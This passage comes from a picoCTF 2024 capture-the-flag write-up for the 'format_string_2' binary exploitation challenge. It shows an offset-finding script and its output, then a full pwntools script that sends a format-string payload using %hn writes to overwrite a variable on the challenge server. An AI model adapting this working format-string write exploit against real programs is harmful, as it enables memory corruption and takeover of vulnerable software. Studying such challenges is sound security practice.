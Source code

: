 ```python
            print(f"Found start of input ({MY_INPUT}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        log.debug(f"Big endian value: {res_be}\n")
        if (res_be == MY_INPUT):
            print(f"Found start of input ({MY_INPUT}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
Found start of input (ABCDEFGH) with little endian at offset 14
```
We confirm that the input starts at offset 14.

### Get the flag - scripted solution

Next we create an exploitation script where we divide the writing of the goal value in two parts and adjust the offset due to additional data before the target addresses we write to. We write the upper part first since it's smaller than the lower part. 
We also make sure that the target addresses are aligned in memory.
```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654

exe = context.binary = ELF('./vuln', checksec=False)

target = exe.symbols.sus
goal_value = 0x67616c66
offset = 14

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

upper_goal = (goal_value >> 16) & 0xFFFF
lower_goal = goal_value & 0xFFFF

lower_address = p64(target)
upper_address = p64(target+2)

payload = f'%{upper_goal}c'.encode() # Padding
payload += f'%{offset+4}$hn'.encode() # Format string for upper half
payload += f'%{lower_goal - upper_goal}c'.encode() # More padding
payload += f'%{offset+5}$hn'.encode() # Format string for lower half
payload += (8 - (len(payload) % 8)) * b'_' # Aligment
payload += upper_address
payload += lower_address

io = remote(SERVER, PORT)
io.sendlineafter(b'What do you have to say?\n', payload)
io.recvline()
print(io.recvallS())
io.close()
```
